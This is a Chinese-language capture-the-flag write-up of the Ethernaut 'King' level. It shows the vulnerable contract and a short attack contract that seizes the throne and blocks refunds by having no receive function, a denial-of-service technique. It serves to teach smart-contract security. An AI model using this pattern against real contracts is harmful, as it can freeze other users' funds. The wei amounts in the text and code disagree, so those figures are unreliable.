




# King

## 题目

目标：

下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

## 分析

这道题和之前遇到的这个一模一样，原理见[链接](https://www.levi104.com/2022/12/18/09.%E5%AE%89%E5%85%A8%E5%AE%A1%E8%AE%A1/11.%E6%8B%92%E7%BB%9D%E6%9C%8D%E5%8A%A1%E6%94%BB%E5%87%BB/)。

在本道题，获取题目实例之后，查看prize是：1000000000000000Wei。



那么我们就需要至少发送1000000000000001Wei才可以成为新王。关键：用合约发送1000000000000000Wei，并且此合约没有fallback和receive函数

## 攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    function attack() public payable {
        address(0x24fF7e183ce72d22fD8773Dd751bbcF482B51656).call{value: uint256(1000000000000001)}("");
    }
}
```

## 做题

部署合约，获取初始状态


msg.value设置为1000000000000000Wei，调用attack函数。成功修改_king和prize



注意：attack的时候需要调高调用gas，否则交易失败



通过


